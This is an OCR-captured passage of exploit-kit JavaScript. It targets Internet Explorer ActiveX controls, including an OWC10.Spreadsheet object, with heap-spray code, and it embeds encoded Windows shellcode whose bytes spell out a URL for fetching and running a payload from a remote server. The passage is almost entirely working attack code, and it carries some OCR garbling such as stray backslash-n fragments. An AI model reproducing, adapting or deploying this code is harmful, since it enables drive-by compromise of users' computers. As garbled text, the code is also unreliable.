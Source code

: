 ```javascript
        document.body.appendChild(obj);
        obj.setAttribute('classid', 'clsid:EC444CB6-3E7E-4865-B1C3-0DE72EF39B3F');
        if (obj) {
            var shcode = unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u373D");
            var hbs = 0x100000;
            var sss = hbs - (shcode.length * 2 + 0x38);
            var hb = (0x0c0c0c0c - hbs) / hbs;
            var myvar = unescape("%u0C0C%u0C0C");
            var ss = myvar;
            while (ss.length * 2 < sss) {
                ss += ss;
            }\
            nss = ss.substring(0, sss / 2);
            var m = new Array();
            for (var i = 0; i < hb; i++) {
                m[i] = ss + shcode;
            }\
            nvar z = Math.ceil(0x0c0c0c0c);
            z = document.scripts[0].createControlRange().length;
        }
    } catch (e) {}spreadsheet();
}function spreadsheet() {
    try {
        var objspread = new ActiveXObject('OWC10.Spreadsheet');
    } catch (e) {}if(objspread) {
        try {
            var shellcode = unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u383D");
            var array = new Array();
            var ls = 0x81000 - (shellcode.length * 2);
            var bigblock = unescape("%u0b0c%u0b0C");
            while (bigblock.length < ls / 2) {
                bigblock += bigblock;
            }\
            nvar lh = bigblock.substring(0, ls / 2);
            delete bigblock;
            for (var i = 0; i < 0x99 * 2; i++) {
                array[i] = lh + lh + shellcode;
            }\
            nCollectGarbage();
            var objspread = new ActiveXObject("OWC10.Spreadsheet");
            e = new Array();
            e.push(1);
            e.push(2);
            e.push(0);
            e.push(window);
            for (i = 0; i < e.length; i++) {
                for (j = 0; j < 10; j++) {
```